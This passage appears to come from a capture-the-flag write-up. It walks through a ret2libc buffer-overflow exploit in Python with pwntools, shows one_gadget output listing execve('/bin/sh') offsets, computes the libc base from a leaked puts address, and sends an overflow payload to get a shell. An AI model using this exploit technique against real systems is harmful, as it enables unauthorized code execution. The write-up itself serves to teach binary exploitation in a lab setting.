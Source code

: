 0x4527a execve("/bin/sh", <span style="color:lime">rsp</span>+0x30, environ)
<span style="color:salmon">constraints</span>:
  [<span style="color:lime">rsp</span>+0x30] == NULL

0xf03a4 execve("/bin/sh", <span style="color:lime">rsp</span>+0x50, environ)
<span style="color:salmon">constraints</span>:
  [<span style="color:lime">rsp</span>+0x50] == NULL

0xf1247 execve("/bin/sh", <span style="color:lime">rsp</span>+0x70, environ)
<span style="color:salmon">constraints</span>:
  [<span style="color:lime">rsp</span>+0x70] == NULL
</pre>
  
The tool found 4 possible one gadgets.  
Not all of them are guaranteed to work though. We have to try them all and seem if one of those works.  
I'll make it short: the last one at offset ``0xf1247`` will work.  
So let's add the offset to our code and calculate the real address of our one gadget as well:

````python
one_gadget_offset = 0xf1247 # found by the one_gadget tool
# ...
libc_base_address = libc_puts_address - libc_puts_offset
one_gadget_address = libc_base_address + one_gadget_offset
````  

## The final exploit

Now we're truly ready to jump to our one gadget code and get a shell!  
Luckily we already returned to the ``missile_launcher`` function after our first ROP chain and so we can just trigger another bufferoverflow to return to our one gadget (ret2libc!):  

````python
# receive remaining bytes and send anything for the "Insert new coordinates" prompt
r.recvrepeat(0.1)
r.sendline(b'anything')
r.recvrepeat(0.1)

# trigger the 2nd buffer overflow and return to the one gadget
payload = b'A'*88
payload += p64(one_gadget_address)
r.sendline(payload)

# we should now have a shell
r.interactive()
````
  
Now if we start the script we get this:

![success](img/retribution_shell.png)
  